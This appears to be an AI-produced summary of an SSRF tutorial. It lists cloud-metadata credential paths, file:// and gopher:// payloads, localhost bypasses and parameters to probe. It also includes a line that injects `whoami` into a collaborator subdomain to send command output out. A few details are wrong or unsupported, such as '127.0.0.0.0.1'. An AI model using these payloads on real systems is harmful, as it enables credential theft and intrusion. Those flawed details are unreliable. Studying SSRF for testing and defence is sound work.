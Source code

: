 # 🧠 SSRF
**SSRF** (Server‑Side Request Forgery) is a vulnerability where you trick a server into making HTTP requests **on your behalf**.  
If the server can be convinced to fetch a URL you control, you can often make it talk to **internal systems** or **cloud metadata services** that you normally can’t reach.

---

## 🔍 Core Idea
- The app has a feature like:
  ```
  GET /api/v1/fetch?url=https://site.com/image.jpeg
  ```
- You change the `url` parameter to something else — not an image, but an **internal address**.
- The server fetches it, and you get the response.

---

## ☁ Cloud Metadata Targets
Cloud providers expose special internal IPs that return **sensitive instance data**:

| Provider | Metadata IP/Host | Example Sensitive Paths |
|----------|------------------|-------------------------|
| AWS | `169.254.169.254` | `/latest/meta-data/iam/security-credentials` (access keys) |
| GCP | `metadata.google.internal` | `/computeMetadata/v1beta1/instance/service-account/default/token` (tokens) |

If you can make the vulnerable server request these, you can steal credentials.

---

## 🛠 Exploitation Flow (from the article)
1. **Test with your Burp Collaborator URL**  
   Replace the `url` param with something like:
   ```
   http://<your-collaborator>.burpcollaborator.net
   ```
   eg: if you have a website like:`http://example.burpcollaporator.net` ⇒ you can make RCE like :<br>

```http://`whoami`.example.burpcollaporator.net``` OR `http://$(whoami).example.burpcollaporator.net`<br>
   If you see an HTTP/DNS hit, SSRF is confirmed.

2. **Pivot to internal targets**  
   Try:
   ```
   http://169.254.169.254/latest/meta-data/
   ```
   or for GCP:
   ```
   http://metadata.google.internal/...
   ```

3. **Grab sensitive data**
   - AWS: IAM role creds, instance identity docs, hostnames.
   - GCP: Access tokens, SSH keys.
   ### sensitive places for SSRF:

- `?url=file:///etc/passwd`
- `?url=gopher://`
- `?url=ssh://` ⇒ RCE
- `?url=dict://` (dictionary network protocol)
- `?url=ftp://` (file transfer protocol)
- `?url=ldap://` (lightweight directory access protocol)
- `?url=tftp://`

---

## 🧩 Tricks Mentioned
- **Alternate localhost forms**: `127.1`, `127.0.0.0.0.1`, `[::]` if `127.0.0.1` is blocked.
- **Other protocols**: `file:///etc/passwd`, `gopher://`, `ftp://`, `ldap://` — sometimes SSRF lets you hit non‑HTTP services.
- **Weird payloads**: Embedding SSRF in SVG, HTML, or media files to trigger server‑side fetches.
- **Command injection via DNS**: Using backticks or `$()` in subdomains to try RCE if the server resolves them.

---

## 📍 Where to Look for SSRF
The article lists common parameter names:
```
url, uri, link, target, dest, destination, page, path, site, file,
feed, proxy, host, domain, callback, webhook, img, photo, avatar,
upload_url, download, resource, api_url, endpoint, reference_url,
server, next, redir, redirect, return
```
Also:
- Certain HTTP headers (`X-Forwarded-Host`, `Origin`, `Host`).
- Full URL paths in requests.
- Inside uploaded files (HTML, SVG, XML) that the server might parse and fetch from.

---

## 🧠 TL;DR in One Sentence
If you can control a URL that the server fetches, you can make it talk to **internal networks** or **cloud metadata endpoints**, potentially leaking credentials or enabling further attacks.

---
[MEDIUM LINK](https://medium.com/@MohammedMHassan/ssrf-7c3f196e8d45)

If you want, I can make you a **ready‑to‑use SSRF testing checklist** with payloads, bypass tricks, and a step‑by‑step Burp workflow so you can test any target quickly without re‑reading the article each time.  
Do you want me to prepare that?

